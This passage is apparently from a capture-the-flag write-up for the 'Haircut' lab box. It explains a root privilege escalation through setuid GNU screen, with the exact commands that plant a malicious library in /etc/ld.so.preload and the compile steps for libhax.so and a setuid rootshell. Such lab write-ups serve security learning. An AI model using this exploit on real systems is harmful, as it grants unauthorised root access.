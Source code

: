 

It simply sets all the user and group ids to root and runs `/bin/sh`.

Now to the exploit. It'll move into `/etc`, and then run the following
`screen` command:



    screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed



The options are as follows:

-   `-D -m` - Start `screen` in "detached" mode, but don't fork a new
    process, exiting when the session terminates
-   `-L ld.so.preload` - turn on automatic output logging for the window
-   `echo -ne "\x0a/tmp/libhax.so"` - command to run in the session,
    printing a newline followed by the path to the malicious library

So this will start screen output the path to the library, which will be
logged to the `/etc/ld.so.preload` file, and then exit.

`/etc/ld.so.preload` holds a list of libraries that will attempt to be
loaded each time any program is run. So the next time something runs as
root, the malicious library will run as root. The script kicks that off
by calling screen again:



    screen -ls # screen itself is setuid, so... 



Finally, it will call the now SUID `/tmp/rootshell`.

### Run It

I tried to just upload the script to Haircut and run it, but it had some
issue compiling things locally. I resorted to compiling locally on my
host. I'll create the two c files on my VM, and then compile them:



    root@kali# gcc -fPIC -shared -ldl -o libhax.so libhax.c 
    libhax.c: In function ‘dropshell’:
    libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
        7 |     chmod("/tmp/rootshell", 04755);
          |     ^~~~~
    root@kali# gcc -o rootshell rootshell.c 
    rootshell.c: In function ‘main’:
    rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
        3 |     setuid(0);
          |     ^~~~~~
    rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
        4 |     setgid(0);
          |     ^~~~~~
    rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
        5 |     seteuid(0);
          |     ^~~~~~~
    rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
        6 |     setegid(0);
          |     ^~~~~~~
    rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]